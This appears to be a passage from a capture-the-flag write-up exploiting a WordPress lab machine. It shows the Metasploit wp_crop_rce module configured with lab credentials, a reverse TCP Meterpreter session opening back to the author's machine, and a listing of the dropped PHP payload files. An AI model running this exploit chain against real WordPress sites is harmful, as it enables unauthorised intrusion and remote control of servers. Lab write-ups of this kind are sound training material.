 ```
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  YOUROPENVPN$IP(tun0) yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD cutiepie1
PASSWORD => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set RHOSTS 10.10.173.247
RHOSTS => 10.10.173.247
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf6 exploit(multi/http/wp_crop_rce) > run

```
So we got the exploit set up what it does is it "allows Path Traversal in wp_crop_image(). An attacker (who has privileges to crop an image) can write the output image to an arbitrary directory via a filename containing two image extensions and ../ sequences, such as a filename ending with the .jpg?/../../file.jpg substring." According to nvd.nistgov (National Vulnerability Database)
```

[*] Started reverse TCP handler on 10.2.49.167:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39282 bytes) to 10.10.173.247
[*] Meterpreter session 1 opened (10.2.49.167:4444 -> 10.10.173.247:44196) at 2021-02-12 06:14:17 +0000
[*] Attempting to clean up files...
 
meterpreter > 
```
This is how it should look a debug that I had to gothrough is that I forgot to set my local host to my openvpn $IP so it never sent stage it only attempted to clean up files because It never got recieved the reverse TCP connection.

Anyways.

```
ls
Listing: /var/www/wordpress
===========================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100640/rw-r-----  235    fil   2020-05-28 13:15:42 +0100  .htaccess
100640/rw-r-----  235    fil   2020-05-28 04:44:26 +0100  .htaccess_backup
100640/rw-r-----  418    fil   2013-09-25 01:18:11 +0100  index.php
100644/rw-r--r--  1110   fil   2021-02-12 06:16:26 +0000  kTmlEUvCzC.php
100640/rw-r-----  19935  fil   2020-05-26 16:39:37 +0100  license.txt
100640/rw-r-----  7415   fil   2020-05-26 16:39:37 +0100  readme.html
100644/rw-r--r--  1110   fil   2021-02-12 06:19:57 +0000  uYrpHsbwYN.php
100640/rw-r-----  5458   fil   2020-05-26 16:39:37 +0100  wp-activate.php
40750/rwxr-x---   4096   dir   2018-12-06 18:00:07 +0000  wp-admin
```